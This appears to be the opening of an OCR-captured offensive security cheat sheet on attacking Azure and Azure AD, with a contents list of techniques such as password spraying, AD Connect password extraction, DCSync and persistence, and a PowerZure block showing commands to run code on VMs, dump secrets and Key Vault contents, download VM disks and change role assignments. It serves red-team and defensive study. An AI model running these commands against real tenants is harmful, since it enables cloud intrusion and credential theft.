 # Azure

## Summary

* [Tools](#tools)
* [Azure Architecture](#azure-architecture)
* [Azure Storage Account - Access](#azure-storage-account----access)
* [Azure AD vs Active Directory](#azure-ad-vs-active-directory)
* [Azure AD - Enumeration](#azure-ad---enumeration)
* [Azure AD - Password Spray](#azure-ad---password-spray)
* [Azure AD - Convert GUID to SID](#azure-ad---convert-guid-to-sid)
* [Azure AD - Sign in with a service principal](#azure-ad---sign-in-with-a-service-principal)
* [Azure AD Connect - Password extraction](#azure-ad-connect---password-extraction)
* [Azure AD Connect - MSOL Account's password and DCSync](#azure-ad-connect---msol-accounts-password-and-dcsync)
* [Azure AD Connect - Seamless Single Sign On Silver Ticket](#azure-ad-connect---seamless-single-sign-on-silver-ticket)
* [Azure AD - ADFS Federation Server ~Cloud Kerberos](#azure-ad---adfs-federation-server-cloud-kerberos)
* [Azure AD - Persistence via Automation accounts](#azure-ad---persistence-via-automation-accounts)
* [Azure VM - Execute command as NT SYSTEM with Contributor right](#azure-vm---execute-command-as-nt-system-with-contributor-right)
* [Office365 - Enumerating Users](#office365---enumerating-users)
* [References](#references)

## Tools

:warning: 16 apr 2019 : BloodHound does not support any analysis with AzureAD.
:warning: Tokens for Azure are cached in `C:\Users\[Name]\.Azure\accessTokens.json`

* **PowerZure** -

    ```powershell
    require az module !
    $ git clone https://github.com/hausec/PowerZure
    $ ipmo .\PowerZure
    $ Set-Subscription -Id [idgoeshere]

    # Reader
    $ Get-Runbook, Get-AllUsers, Get-Apps, Get-Resources, Get-WebApps, Get-WebAppDetails

    # Contributor
    $ Execute-Command -OS Windows -VM Win10Test -ResourceGroup Test-RG -Command "whoami"
    $ Execute-MSBuild -VM Win10Test  -ResourceGroup Test-RG -File "build.xml"
    $ Get-AllSecrets # AllAppSecrets, AllKeyVaultContents
    $ Get-AvailableVMDisks, Get-VMDisk # Download a virtual machine's disk

    # Owner
    $ Set-Role -Role Contributor -User test@contoso.com -Resource Win10VMTest
